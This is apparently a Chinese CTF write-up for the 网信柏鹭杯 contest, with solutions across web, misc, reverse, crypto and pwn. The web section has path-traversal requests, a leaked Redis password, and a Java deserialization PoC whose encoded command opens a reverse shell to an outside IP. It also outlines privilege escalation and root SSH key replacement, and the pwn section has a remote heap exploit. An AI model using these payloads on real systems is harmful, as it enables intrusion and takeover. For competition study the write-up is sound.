


# 网信柏鹭杯  ‖ 放开那个签到

# web

#### <strong>express fs</strong><strong> </strong>

读源码

?file=/proc/self/cwd/main.js

```javascript
const express = require("express");
const fs = require("fs");

const app = express();

const PORT = process.env.PORT || 80;

app.use('/static', express.static('static'))

app.use((req, res, next) => {
  if (
    [req.body, req.headers, req.query].some(
      (item) => item && JSON.stringify(item).includes("flag")
    )
  ) {
    return res.send("臭黑客!");
  }
  next();
});

app.get("/", (req, res) => {
  try {
    res.setHeader("Content-Type", "text/html");
    res.send(fs.readFileSync(req.query.file || "index.html").toString());
  } catch (err) {
    console.log(err);
    res.status(500).send("Internal server error");
  }
});

app.listen(PORT, () => console.log(`express server listening on port ${PORT}`));
```

参考 [https://pankas.top/2022/06/04/corctf2022%E4%B8%80%E9%81%93%E6%9C%89%E6%84%8F%E6%80%9D%E7%9A%84node%E9%A2%98/](https://pankas.top/2022/06/04/corctf2022%E4%B8%80%E9%81%93%E6%9C%89%E6%84%8F%E6%80%9D%E7%9A%84node%E9%A2%98/)

```javascript
/?file[href]=a&file[origin]=1&file[protocol]=file:&file[hostname]=&file[pathname]=/proc/self/cwd/fl%2561g.txt
```


#### <strong>综合题 5</strong><strong> </strong>

任意文件读

```javascript
GET /readfile?filename=../../etc/passwd HTTP/1.1
Host: 8.130.129.179:51180
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=1BFA3AF7F877C0E789FB87D803657D72
Connection: close
```

权限是 ctf 权限



spring 配置


```javascript
server.port=18080
server.servlet.context-path=/
management.endpoints.web.exposure.include=c
spring.redis.host=172.25.0.10
spring.redis.port=62341
spring.redis.password=de17cb1cfa1a8e8011f027b416775c6a
spring.servlet.multipart.max-file-size=10MB
```

[http://8.130.129.179/readfile?filename=../../app/demo.jar](http://8.130.129.179:51180/readfile?filename=../../app/demo.jar)

源码

源码里有第一个 flag


```javascript
UFVTUhgqY3d0FQxRVFcHBlQLVwdSVlZRVlJWBwxeVgAHWgsBWgUAAQEJRA==
```

```javascript
public String o0o(String Ooo) {
    StringBuilder oOo = new StringBuilder();
    int o0O = 0;

    for(int OO0 = Ooo.length(); o0O < OO0; ++o0O) {
        char Oo0 = Ooo.charAt(o0O);
        char oOO = this.O0O.charAt(o0O % this.O0O.length());
        char OOo = (char)(Oo0 ^ oOO);
        oOo.append(OOo);
    }

    return Base64.getEncoder().encodeToString(oOo.toString().getBytes());
}
```


#### <strong>综合题 6</strong><strong> </strong>

这里有反序列化接口


还有个 Ping 类能 Rce


Poc

```java
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;

public class Poc {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException, NoSuchMethodException, InvocationTargetException {
        Class clazz = Class.forName("com.example.demo.Ping");
        Constructor constructor = clazz.getDeclaredConstructor();
        constructor.setAccessible(true);
        Object pingObj = constructor.newInstance();
        Field command = clazz.getDeclaredField("command");
        command.setAccessible(true);
        Field arg1 = clazz.getDeclaredField("arg1");
        arg1.setAccessible(true);
        Field arg2 = clazz.getDeclaredField("arg2");
        arg2.setAccessible(true);
        command.set(pingObj, "bash");
        arg1.set(pingObj, "-c");
        arg2.set(pingObj, "{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzExMi4xMjQuNDQuMjM4LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(pingObj);
        String payload = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(payload);
    }

}
```

打反序列化反弹 shell（注意 Content-Type 要用 text/plain）

```javascript
POST /internalApi/v3.2/updateConfig HTTP/1.1
Host: 8.130.129.179:51180
Connection: close
Content-Type: text/plain
Content-Length: 268

rO0ABXNyABVjb20uZXhhbXBsZS5kZW1vLlBpbmcAAAAAAAAAAQIAA0wABGFyZzF0ABJMamF2YS9sYW5nL1N0cmluZztMAARhcmcycQB+AAFMAAdjb21tYW5kcQB+AAF4cHQAAi1jdABZe2VjaG8sWW1GemFDQXRhU0ErSmk5a1pYWXZkR053THpFeE1pNHhNalF1TkRRdU1qTTRMekV5TXpRZ01ENG1NUT09fXx7YmFzZTY0LC1kfXx7YmFzaCwtaX10AARiYXNo
```



flag 找不到


要提权

suid 提权，有个 dig 命令可用


#### 综合题 7

然后还有个 redis


上传木马，做个 socks5 代理


替换 root 公钥


通过私钥链接，读 flag


# misc

#### <strong>签到题</strong>

每一行长度转码

```python
f = open("qd.txt","r").readlines()

for i in f:
    print(chr(len(i)-1),end="")
```

# Re

#### <strong>imm</strong>

IDA 打开


这里是 check 函数。输入长度为 64，仅包含[0-9A-F]


点开，sub_4051BF 是十六进制串转 hex。例如"12"转为 0x12


继续，vpxor 是按位异或。

vpshufb 查一下


根据 xmm3 的值对 xmm2 进行洗牌（shuffle）。这里 xmm3 导出的值没有重复项，应该就是置换了。


```python
data1 = [  0xCD, 0xEB, 0x5E, 0x76, 0x0F, 0x22, 0xAF, 0x31, 0x82, 0x92, 
    0x3C, 0xEF, 0xB8, 0xC1, 0x76, 0x06, 0x18, 0x2F, 0xB5, 0x7D, 
    0x7F, 0x0A, 0xEA, 0x85, 0x92, 0x00, 0x89, 0xA3, 0x2C, 0xE2, 
    0xE7, 0x32]

ref = [  0x12, 0x34, 0x56, 0x78, 0x90, 0x12, 0x34, 0x56, 0x78, 0x90, 
    0x12, 0x34, 0x56, 0x78, 0x90, 0x12, 0x34, 0x56, 0x78, 0x90, 
    0x12, 0x34, 0x56, 0x78, 0x90, 0x12, 0x34, 0x56, 0x78, 0x90, 
    0x12, 0x34]

data2 = [  0x0A, 0x07, 0x06, 0x0E, 0x02, 0x0B, 0x03, 0x0D, 0x01, 0x09, 
    0x00, 0x05, 0x04, 0x0F, 0x08, 0x0C, 0x1B, 0x18, 0x17, 0x1F, 
    0x14, 0x1E, 0x12, 0x13, 0x15, 0x1D, 0x16, 0x1C, 0x11, 0x10, 
    0x19, 0x1A]

ans = [  0x5F, 0x91, 0x99, 0xE8, 0x4E, 0xD0, 0xB0, 0x92, 0xB1, 0x3C, 
    0x4F, 0xF4, 0x17, 0x76, 0xDA, 0x12, 0x2A, 0x35, 0x01, 0x15, 
    0xF9, 0x97, 0x5E, 0x19, 0x9D, 0xC2, 0x15, 0x99, 0x70, 0x7D, 
    0x9F, 0xCC]

def enc(ori : list) -> list:
    result = ori.copy()
    for i in range(32):
        result[i] ^= data1[i]
    
    t = result.copy()
    for i in range(32):
        t[i] = result[data2[i]]
    
    result = t
    return result

def dec(dat : list) -> list:
    result = dat.copy()
    for i in range(32):
        result[data2[i]] = dat[i]
    
    for i in range(32):
        result[i] ^= data1[i]

    return result

if __name__ == '__main__':
    # res = enc(ref)
    # print(res)

    res = dec(ans)
    print(res)
    for i in res:
        print(hex(i)[2:].upper(), end='')
    print()
    # PS F:\tools\shared_files\wangxinbailu2023> & D:/anaconda/python.exe f:/tools/shared_files/wangxinbailu2023/rev1_imm/solve.py
    # [130, 90, 16, 198, 24, 214, 54, 160, 88, 174, 99, 63, 170, 83, 158, 112, 101, 95, 235, 100, 134, 151, 255, 132, 167, 159, 69, 137, 181, 32, 112, 39]
    # 825A10C618D636A058AE633FAA539E70655FEB648697FF84A79F4589B5207027
```


# crypto

#### <strong>这也是 RSA 密码算法吗？</strong>

摩斯密码解码得到 password 打开文件。

小数转连分数得到 num1,num2

leak 模 num1，由费马小定理，得到 p-q

解方程得到 p，q

再 rsa 解密

```python
from Crypto.Util.number import *
import gmpy2

data3 = 1.23389923415003373900567515471436168841941584796842188964423737295914869304653496800649965063081353720701415762591488370228399019899893688681309320356016722276295236528757306976510687729729934668311830828756908988350841843676900575414367123810470585198055372776278588638204471298838884740198056387082949710435502826460830711429956


c = continued_fraction(data3)
print(c)

def exp(cf):
    
    fz = [cf[0],cf[0] * cf[1] + 1]
    fm = [1,cf[1]]
    for i in range(2,len(cf)):
        z = fz[i - 1] * cf[i] + fz[i - 2]   
        m = fm[i - 1] * cf[i] + fm[i - 2]
        fz.append(z)
        fm.append(m)
    return fz,fm
def get(cf):
    tmp1,tmp2 = exp(cf)
    for i in range(2,len(tmp1)):
        _x,_y = tmp1[i],tmp2[i]
        if isPrime(_x)and isPrime(_y) and _x.bit_length()==512 and _y.bit_length()==512:
            return _x,_y
c = [1, 4, 3, 1, 1, 1, 2, 1, 1, 11, 1, 3, 1, 2, 1, 2, 1, 1, 4, 2, 2, 1, 5, 1, 6, 27, 3, 203, 1, 1, 1, 1, 2, 1, 1, 1, 5, 2, 3, 6, 4, 2, 3, 2, 3, 1, 10, 1, 2, 1, 1, 3, 1, 7, 1, 1, 1, 4, 11, 1, 3, 2, 3, 2, 1, 2, 1, 1, 1, 1, 4, 6, 2, 2, 9, 1, 3, 7, 1, 1, 2, 2, 4, 6, 10, 2, 6, 1, 3, 1, 1, 1, 99, 1, 2, 1, 1, 4, 5, 6, 1, 3, 1, 5, 1, 7, 48, 1, 8, 30, 6, 1, 22, 7, 2, 2, 5, 1, 1, 3, 3, 1, 1, 1, 1, 1, 1, 1, 2, 1, 8, 12, 1, 3, 5, 5, 2, 1, 4, 1, 2, 3, 14, 4, 2, 3, 1, 1, 1, 1, 1, 2, 7, 1, 3, 1, 1, 203, 1, 2, 3, 1, 1, 1, 10, 1, 1, 5, 2, 1, 1, 1, 3, 3, 36, 1, 3, 5, 1, 2, 2, 2, 1, 25, 11, 1, 1, 3, 4, 1, 8, 1, 1, 1, 6, 5, 5, 3, 1, 408, 1, 10, 1, 3, 1, 17, 2, 5, 2, 1, 1, 3, 4, 4, 5, 13, 1, 1, 10, 6, 1, 1, 1, 1, 3, 2, 4, 1, 2, 1, 2, 3, 2, 15, 2, 1, 8, 13, 1, 1, 1, 12, 1, 1, 6, 2, 1, 10, 1, 20, 2, 12, 3, 1, 3, 1, 37, 1, 14, 2, 1, 2, 1, 2, 484, 1, 151, 4, 1, 1, 33, 2, 1, 8184, 5, 11, 1, 3, 3, 1, 2, 5, 1, 2, 1, 1, 10, 2, 2, 1, 1, 2, 2, 2, 1, 9, 1, 1, 1, 2, 1, 1, 4, 4, 1, 8, 1, 1, 1, 5, 3, 17, 5, 2308958703153190665270]

num1,num2 = get(c)
ct = 31011170589632318837149853165664224847925206003567781692767655474759523146503572164952138829336342836023903919700264739071138739105931471740973631326608186969523753119546323993892359278563753903149741128282349467136720827132122619177620866305659196267641453819504766216964516467658995724859657544518337771393
N = 61860727516406742636690805639158184396057779906729165734489212939937929906456706343476469874085504076991779041906401043694401076841639925611957258119417559980829238154105119701407722069260962772947894516879731956778127512764229384957918619863998939985369399189275568362193066167855420897196095587732512368673
leak = 23213363443983005040318061737977092634638640953366787443691593387275645092922646169818923792205696350020369122807136306157118385984272980615310163206933078119776935167207473544453080959202803743994251355133953187110546017667004996272367137522351606700447920805532616096125523674597551449412004735397779511371
k = int(leak % num1)
from z3 import *

p,q = Ints('p q')
x = Solver()
x.add(p-q == k)
x.add(p*q == N)

check = x.check()
print(check)
model = x.model()
print(model)
q = 8397652354751369475047895816963473478350245201262315191356674989898449420511844471318815750077346111978800531467822072132495108840045942922000560423170719
p = 7366431105165493870863104020012521226567717006209783271191581404475809252591732063142219903159720601508017444435289526877689688795190667050592115689909567
e = 65537
phi = (p-1)*(q-1)
d = inverse(e,phi)
m = pow(ct,d,N)
print(long_to_bytes(m-num2))
```

#### <strong>来一道综合编码题目！</strong>

先爆破哈希，得到第一个 password

```python
import  hashlib

#"i?Bgt?_Ld?s?6c9" 
str1='i'
str2="Bgt"
str3="_Ld"
str4="s"
str5 = '6c9'
cipher='8c36e4?c1d294?df5bb7a9b?b8bd2d2?f22c1f?9'
for i in range(len(cipher)):
    if cipher[i] == '?':
        print(i)

def getdigest(content):
    return  hashlib.sha1(str(content).encode('utf-8')).hexdigest()
alphabet= " !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~"
for a in alphabet:
    for b in alphabet:
        for c in alphabet:
            for d in alphabet:
                string=str1+a+str2+b+str3+c+str4+d+str5
                s = getdigest(string)
                if cipher[:6] == s[:6] and cipher[7:13] == s[7:13] and  cipher[14:23] == s[14:23] and cipher[24:31] == s[24:31] and cipher[32:38] == s[32:38]and cipher[39:] == s[39:]:
                    print(string)
                    exit()
```

i~BgtN_Ld@sw6c9

然后弱口令爆破 ROT47

密文  ey?D}Iwzyg><G9$LC|~04h2A|7wsw~3Bg_!|FL0HH0CLCB

ROT47 解密  6JnsNxHKJ8mkvhS{rMO_c9apMfHDHObq80PMu{_ww_r{rq

t[a][b][c] = s[((a+b+c)%len(s))]

```python
import sys


def _l(idx, s):
    return s[idx:] + s[:idx]
def mainProc(p, k1, k2):
    s = b"abcd07efghij89klmnopqr16stuvwxyz-_{}ABCDEFGHIJKL34MNOPQRST25VWXYZ"
    t = [[_l((i+j)%len(s), s) for j in range(len(s))] for i in range(len(s))]
    i1 = 0
    i2 = 0
    c = b""
    for a in p:
        c += t[s.find(a)][s.find(k1[i1])][s.find(k2[i2])]
        i1 = (i1 + 1) % len(k1)
        i2 = (i2 + 1) % len(k2)
    return c

res = '6JnsNxHKJ8mkvhS{rMO_c9apMfHDHObq80PMu{_ww_r{rq'
s = "abcd07efghij89klmnopqr16stuvwxyz-_{}ABCDEFGHIJKL34MNOPQRST25VWXYZ"
t = [[_l((i+j)%len(s), s) for j in range(len(s))] for i in range(len(s))]
print(t[2][3][4] == s[(2+3+4)%len(s)])#验证
ff = 'flag{ISEC-'
for i in range(10):
    re.append((s.find(res[i])-s.find(ff[i]))%len(s))
re = [16, 30, 17, 16, 17, 50, 52, 6, 7, 45]
re = re+re[::-1]
print(re)
ans = ''
for i in range(len(res)):
    ans += s[(s.find(res[i])-re[i%20])%len(s)]
print(ans)
```

#### 

# PWN

#### 

#### <strong>heap</strong>

题目手写了一个全新的堆管理器，要从零开始看源码找漏洞了。

可以堆溢出，有 malloc_hook 和 free_hook，分配的 chunk 都在 libc 的开头。

对于相同大小的 0x80 以下的 chunk，所有 chunk 通过一个链表连起来。free chunk 通过另一个 chunk 连起来。

类 fastbin 里有漏洞，在申请了链上一个 chunk 之后会直接把下一个 chunk 的地址写在 bss 上，下次会直接把这个申请走，没有任何检查。UAF 一下就能任意地址申请堆。

改 mallochook 为给出的 getflag 函数即可

```python
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
MENU_END = "> "
def add(siz):
    p.recvuntil(MENU_END)
    p.sendline("1")
    p.recvuntil(": ")
    p.sendline(str(siz))

def fre(idx):
    p.recvuntil(MENU_END)
    p.sendline("2")
    p.recvuntil(": ")
    p.sendline(str(idx))

def edi(idx,cot):
    p.recvuntil(MENU_END)
    p.sendline("3")
    p.recvuntil(": ")
    p.sendline(str(idx))
    p.recvuntil(": ")
    p.send(cot)

def sho(idx):
    p.recvuntil(MENU_END)
    p.sendline("4")
    p.recvuntil(": ")
    p.sendline(str(idx))

def exi():
    p.recvuntil(MENU_END)
    p.sendline("5")

p = process("./heap")
p = remote("8.130.129.179",20199)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

add(0xf8)
add(0xf8)
add(0xf8)
fre(1)
edi(0,b'a'*0x101)
sho(0)
p.recv(0x100)
rand = u64(p.recv(8))-0x61
print(hex(rand))
payload = b'a'*0x110
edi(0,payload)
sho(0)
p.recv(0x110)
heap2 = u64(p.recv(6).ljust(8,b'\0'))
print(hex(heap2))
payload = b'a'*0x118
edi(0,payload)
sho(0)
p.recv(0x118)
piebase = u64(p.recv(6).ljust(8,b'\0'))-0x3060
mallochook = piebase+0x31e0
getflag = piebase-0x200000+0xead
payload = b'a'*0xf8+p64(0)+p64(rand)+p64(0x100aaaaaaaa)+p64(heap2)
edi(0,payload)
fre(2)
fre(0)

add(0x8)
add(0x8)
add(0x8)
edi(0,b'AAAAAAAA')
edi(1,b'BBBBBBBB')
edi(2,b'CCCCCCCC')
fre(1)
edi(0,b'a'*0x11)
sho(0)
p.recv(0x10)
rand=u64(p.recv(8))-0x61
print(hex(rand))
payload = b'a'*0x20
edi(0,payload)
sho(0)
p.recv(0x20)
# p.recv()
heap6=u64(p.recv(6).ljust(8,b'\0'))
print(hex(heap2))

payload = b'a'*0x10 + p64(rand) + p64(0x10aaaaaaaa) + p64(heap2) + p64(mallochook-0x40)
edi(0,payload)
add(0x8)
add(0x8)
edi(3,p64(0)+p64(0)+p64(0)+p64(getflag))
# gdb.attach(p)
add(0x100)
add(0x100)
```
